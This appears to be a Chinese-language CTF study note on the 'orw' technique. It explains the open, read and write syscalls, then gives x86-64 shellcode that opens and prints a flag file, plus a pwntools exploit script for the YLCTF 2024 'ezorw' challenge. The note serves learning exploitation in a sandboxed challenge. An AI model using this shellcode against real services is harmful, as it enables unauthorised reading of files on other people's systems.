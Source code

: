 ```yaml
---
title: orw
date: '2025-02-24 23:14:42'
updated: '2025-06-07 19:17:22'
---
```

1. <font style="background-color:#FBDE28;">open 函数</font>

open 函数用于打开一个文件，并返回一个文件描述符（一个整数），该文件描述符用来在后续的文件操作中标识文件。函数原型如下：

`int open(const char *pathname, int flags, mode_t mode);`

参数：

+ pathname：

类型：const char *

描述：指定要打开的文件的路径。可以是绝对路径或相对路径。

例子："/path/to/file" 或 "file.txt"

+ flags：

类型：int

描述：文件访问模式标志，指定文件如何被打开。常见的 flags 有：

O_RDONLY：只读模式

O_WRONLY：只写模式

O_RDWR：读写模式

O_CREAT：如果文件不存在，则创建该文件

O_EXCL：如果文件已存在，O_CREAT 将失败

O_TRUNC：如果文件已经存在，打开时将其内容清空

O_APPEND：写操作会从文件末尾开始追加

还有更多其他标志，具体可以参考 fcntl.h 头文件中的定义。

例子：

O_RDONLY：只读模式打开文件。

O_WRONLY | O_CREAT | O_TRUNC：以写入模式打开文件，并且如果文件不存在则创建，且打开时清空文件内容。

+ mode：

类型：mode_t

描述：<font style="background-color:#FBDE28;">如果文件需要创建（O_CREAT 标志），则指定新文件的权限</font>。这是一个三位八进制数，表示文件的访问权限。例如，0644 表示用户可读写，其他用户只能读。

例子：0666（文件所有者可以读写，其他用户可以读）。

返回值：

成功时，返回一个非负整数（文件描述符）。

失败时，返回 -1，并设置 errno 以表示错误原因。

2. <font style="background-color:#FBDE28;">read 函数</font>

read 用于从文件中读取数据。函数原型如下：

`ssize_t read(int fd, void *buf, size_t count);`

参数：

+ fd：

类型：int

描述：文件描述符

+ buf：

类型：void *

描述：指向存储读取数据的缓冲区的指针。

+ count：

类型：size_t

描述：要读取的字节数。read 会尝试读取最多 count 字节的数据。

返回值：

返回实际读取的字节数。可能少于 count，例如，文件到达末尾时。

返回 0 表示已到达文件末尾（EOF）。

失败时，返回 -1，并设置 errno。

3. <font style="background-color:#FBDE28;">write 函数</font>

write 用于向文件中写入数据。函数原型如下：

ssize_t write(int fd, const void *buf, size_t count);

参数：

+ fd：

类型：int

描述：文件描述符，指定要写入的文件。这个文件描述符通常是通过 open 获得的。

例子：fd = open("file.txt", O_WRONLY | O_CREAT | O_TRUNC, 0644);

+ buf：

类型：const void *

描述：指向要写入数据的缓冲区的指针。write 将从这个缓冲区读取数据并写入到文件。

+ count：

类型：size_t

描述：要写入的字节数。write 会从缓冲区中读取最多 count 字节的数据并将它们写入文件。

返回值：

返回实际写入的字节数，可能小于 count。如果发生错误，则返回 -1，并设置 errno。

## ROP 型


## shellcode 型
标准 orw：

```python
shellcode=asm('''
    push 0x67616c66
    mov rdi,rsp
    xor rsi,rsi
    push 2
    pop rax
    syscall
              
    mov rdi,rax
    mov rsi,rsp
    mov rdx,0x100
    xor rax,rax
    syscall
              
    mov rdi,1
    mov rsi,rsp
    mov rax,1
    syscall
''')
```

open 和 sendfile 的 shellcode：

```python
shellcode=asm('''
    mov rax, 0x67616c662f2e
    push rax
    xor rdi, rdi
    sub rdi, 100
    mov rsi, rsp
    xor edx, edx
    xor r10, r10
    push SYS_openat
    pop rax
    syscall
        
    mov rdi, 1
    mov rsi, 3
    push 0
    mov rdx, rsp
    mov r10, 0x100
    push SYS_sendfile
    pop rax
    syscall
''')
```

## YLCTF 2024 ezorw
非常简单的直接可以输入 shellcode 进行 orw

exp：

```python
from pwn import *

context(os='linux', arch='amd64', log_level='debug')

# link=remote("challenge.yuanloo.com",34307)
link=process("./ezorw")

gdb.attach(link,'b *0x40129D')

shellcode=asm('''
    mov rax, 0x67616c662f2e
    push rax
    xor rdi, rdi
    sub rdi, 100
    mov rsi, rsp
    xor edx, edx
    xor r10, r10
    push SYS_openat
    pop rax
    syscall
        
    mov rdi, 1
    mov rsi, 3
    push 0
    mov rdx, rsp
    mov r10, 0x100
    push SYS_sendfile
    pop rax
    syscall
''')

payload=shellcode
link.recvuntil("welcome to YLCTF orw~\n")
link.send(payload)

link.interactive()
```

